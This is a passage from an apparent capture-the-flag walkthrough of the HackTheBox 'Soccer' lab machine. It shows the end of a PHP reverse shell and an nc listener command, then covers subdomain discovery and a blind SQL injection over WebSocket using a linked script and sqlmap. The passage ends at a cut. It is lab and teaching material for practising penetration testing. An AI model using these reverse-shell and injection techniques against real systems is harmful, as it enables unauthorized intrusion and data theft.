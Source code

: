 ```
  if ($debug) printit("STDERR READ");
  $input = fread($pipes[2], $chunk_size);
  if ($debug) printit("STDERR: $input");
  fwrite($sock, $input);
 }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
 if (!$daemon) {
  print "$string\n";
 }
}

?>
```

Make sure to change the ip and port values. Now, listen to the port using "nc -lvpn 4444" and go to "http://soccer.htb/tiny/uploads/reverse_shell.php" to execute the script and achieve remote connection.

Now, connection has been achieved. Let's execute "whoami" to check the username of the loggen in user. We see "www-data" is the username. Let's check the configurations of the nginx server, by executing "cd /etc/nginx/sites-enabled". We can find a file named "soc-player.htb" which means that there is a subdomain. We can add add soc-player.soccer.htb to /etc/hosts by adding this line to the end of the file "10.10.11.194 soc-player.soccer.htb". Now let's go to "http://soc-player.soccer.htb". After examinating the page, we see that there is a login functionality. After doing the signup process, we can login and see in the source code of the page that we have a ticket with a ticket id.

After analysing the source code, we see that it shows a javascript code that establish a new WebSocket connection to the server at the URL “ws://soc-player.soccer.htb:9091”. When the page is loaded, it sets up an event listener for when the user presses the “Enter” key in the input element with the ID “id”. When the “Enter” key is pressed, the function “sendText” is called. The “sendText” function is used to send a message to the server through the WebSocket connection. The message consists of a JSON object with a single property “id” and a value equal to the value of the input element.The code also has a function called “append”, which is called when the WebSocket connection receives a message from the server. The function takes the message as an argument and sets the text content of the “p” element to the message. The input parameter could be vulnerable to SQL injection. Let’s search information about SQL injections over websockets. We find an article that talks about blind SQL injections over websockets:

https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

In the article, we find the exploit script that provides a simple way to interact with the WebSocket server by sending and receiving data through HTTP GET requests, serving as a bridge between clients and the WebSocket server. We need to change the ws_server variable to "ws://soc-player.soccer.htb:9091". Run the script using "python3 exploit.py" and then run the sqlmap command to perform SQL injection:
